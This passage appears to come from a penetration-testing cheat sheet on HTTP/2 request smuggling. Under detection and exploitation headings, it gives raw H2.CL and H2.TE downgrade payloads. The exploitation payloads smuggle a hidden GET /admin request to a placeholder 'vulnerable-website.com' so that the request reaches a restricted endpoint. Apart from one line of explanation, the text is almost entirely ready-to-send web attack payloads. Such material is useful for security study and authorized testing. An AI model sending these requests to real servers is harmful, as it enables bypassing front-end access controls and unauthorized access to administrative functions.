 ### <mark style="color:yellow;">H2.CL</mark> <a href="#h2-cl-vulnerabilities" id="h2-cl-vulnerabilities"></a>

```http
POST / HTTP/2
Host: vulnerable-website.com
Content-Length: 0

GET /404 HTTP/1.1
Foo: x
```

Then send another request and you'll get `/404` .

### <mark style="color:yellow;">H2.TE</mark> <a href="#h2-te-vulnerabilities" id="h2-te-vulnerabilities"></a>

```http
POST / HTTP/2
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
Host: vulnerable-website.com
Foo: x
```

## <mark style="color:yellow;">Exploitation</mark>

### <mark style="color:yellow;">H2.CL</mark> <a href="#h2-cl-vulnerabilities" id="h2-cl-vulnerabilities"></a>

```http
POST / HTTP/2
Host: vulnerable-website.com
Content-Length: 0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 5

x=1
```

### <mark style="color:yellow;">H2.TE</mark> <a href="#h2-te-vulnerabilities" id="h2-te-vulnerabilities"></a>

```http
POST / HTTP/2
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: x
```
